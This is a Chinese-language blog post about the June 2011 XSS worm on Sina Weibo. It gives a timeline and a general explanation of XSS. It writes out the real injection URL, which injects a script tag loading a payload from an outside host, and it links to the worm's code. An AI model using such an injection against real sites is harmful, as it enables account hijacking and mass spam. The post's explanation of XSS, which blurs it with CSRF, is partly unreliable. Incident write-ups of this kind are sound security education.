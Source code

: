 # 新浪微博的XSS攻击
>date: 2011-06-28T23:10:18+08:00


今天晚上（2011年6月28日），新浪微博出现了一次比较大的XSS攻击事件。大量用户自动发送诸如：“郭美美事件的一些未注意到的细节”，“建党大业中穿帮的地方”，“让女人心动的100句诗歌”，“3D肉团团高清普通话版种子”，“这是传说中的神仙眷侣啊”，“惊爆!范冰冰艳照真流出了”等等微博和私信，并自动关注一位名为hellosamy的用户。


事件的经过线索如下：


* 20:14，开始有大量带V的认证用户中招转发蠕虫
* 20:30，2kt.cn中的病毒页面无法访问
* 20:32，新浪微博中hellosamy用户无法访问
* 21:02，新浪漏洞修补完毕


 


![新浪微博XSS事件](/assets/images/coolshell.cn/wp-content/uploads/2011/06/sina_xss01.png "新浪微博XSS事件")新浪微博XSS事件
 


在这里，想和大家介绍一下XSS攻击，XSS攻击又叫跨站脚本式攻击，你Google一下可以搜到很多很多的文章。我在这里就简单地说一下。



首先，我们都知道网上很多网站都可以“记住你的用户名和密码”或是“自动登录”，其实是在你的本地设置了一个cookie，这种方式可以让你免去每次都输入用户名和口令的痛苦，但是也带来很大的问题。试想，如果某用户在“自动登录”的状态下，如果你运行了一个程序，这个程序访问“自动登录”这个网站上一些链接、提交一些表单，那么，也就意味着这些程序不需要输入用户名和口令的手动交互就可以和服务器上的程序通话。这就是XSS攻击的最基本思路。


再说一点，不一定是“记住你的用户名和密码”或是“自动登录”的方法，因为HTTP是无状态的协议，所以，几乎所有的网站都会在你的浏览器上设置cookie来记录状态，以便在其多个网页切换中检查你的登录状态。而现在的浏览器的运行方式是多页面或多窗口运行，也就是说，你在同一个父进程下开的多个页面或窗口里都可以无偿和共享使用你登录状态的。


当然，你不必过于担心访问别的网站，在别的网站里的js代码会自动访问你的微博或是网银。因为浏览器的安全性让js只能访问自己所在网站的资源（你可以引入其它网站的js）。当然，这是浏览器对js做的检查，所以，浏览器并不一定会做这个检查，这就是为什么[IE6是史上最不安全的浏览器](/2011/%E4%B8%AD%E5%9B%BD%E4%BB%8D%E6%98%AFIE6%E7%9A%84%E9%87%8D%E7%81%BE%E5%8C%BA.md "中国仍是IE6的重灾区")，没有之一。只要你没有在用IE6，应该没有这些问题。


XSS攻击有两种方法，


* 一种就像SQL Injection或CMD Injection攻击一样，我把一段脚本注入到服务器上，用户访问方法服务器的某个URL，这个URL就会把远端的js注入进来，这个js有可能自动进行很多操作。比如这次事件中的帮你发微博，帮你发站内消息等。注入有很多方法，比如：提交表单，更改URL参数，上传图片，设置签名，等等。


* 另一类则是来来自外部的攻击，主要指的自己构造XSS 跨站漏洞网页或者寻找非目标机以外的有跨站漏洞的网页。如当我们要渗透一个站点，我们自己构造一个跨站网页放在自己的服务器上，然后通过结合其它技术，如 社会工程学等，欺骗目标服务器的管理员打开。这一类攻击的威胁相对较低，至少ajax 要发起跨站调用是非常困难的（你可能需要hack浏览器）。


这次新浪微博事件是第一种，其利用了微博广场页面 http://weibo.com/pub/star 的一个URL注入了js脚本，其通过http://163.fm/PxZHoxn短链接服务，将链接指向：


http://weibo.com/pub/star/g/xyyyd%22%3E%3Cscript%20src=//www.2kt.cn/images/t.js%3E%3C/script%3E?type=update


注意，上面URL链接中的其实就是<script src=//www.2kt.cn/images/t.js></script>。


攻击者并不一定是2kt.cn的人，因为.cn被国家严格管制（大家不知道coolshell.cn 的备案备了不知有多少次），所以，我个人觉得这个人不会愚蠢到用自己域名来做攻击服务器。


#### 其它


* 初步发现 Chrome 和 Safari 都没中招。IE、Firefox未能幸免。
* 史上最著名的XSS攻击是Yahoo Mail 的[Yamanner](https://en.wikipedia.org/wiki/Yamanner) 蠕虫是一个著名的XSS 攻击实例。早期Yahoo Mail 系统可以执行到信件内的javascript 代码。并且Yahoo Mail 系统使用了Ajax技术，这样病毒javascript 可以的向Yahoo Mail 系统发起ajax 请求，从而得到用户的地址簿，并发送攻击代码给他人。
* 为什么那个用户叫hellosamy，因为[samy](https://en.wikipedia.org/wiki/Samy_(XSS))是第一个XSS攻击性的蠕虫病毒，在MySpace上传播。
* 关于攻击的代码在这里：[06.28\_sina\_XSS.txt](https://coolshell.cn/wp-content/uploads/2011/06/06.28_sina_XSS.txt.zip) （编码风格还是很不错的）


（全文完）



